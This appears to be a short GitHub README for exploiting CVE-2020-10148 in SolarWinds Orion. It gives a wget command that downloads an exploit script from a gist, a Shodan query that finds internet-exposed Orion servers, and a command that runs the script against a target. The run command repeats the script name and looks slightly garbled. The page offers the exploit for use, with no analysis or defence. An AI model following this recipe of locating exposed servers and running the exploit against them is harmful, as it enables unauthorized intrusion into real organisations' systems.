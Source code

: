 # CVE-2020-10148 Solarwinds Orion
## Download CVE-2020-10148.py
```
wget https://gist.githubusercontent.com/0xsha/75616ef6f24067c4fb5b320c5dfa4965/raw/0d7db4f2ea5aacc0ada7b1a7b23f2ce8ba39315f/CVE-2020-10148.py
```

## Looking Solarwinds Orion from Shodan
```
https://www.shodan.io/search?query=http.title%3Asolarwinds+http.favicon.hash%3A-1776962843
```

## Running CVE-2020-10148.py
```
python CVE-2020-10148.py CVE-2020-10148.py http(s)://target
```

Reffrence :
* _https://gist.github.com/0xsha/75616ef6f24067c4fb5b320c5dfa4965_
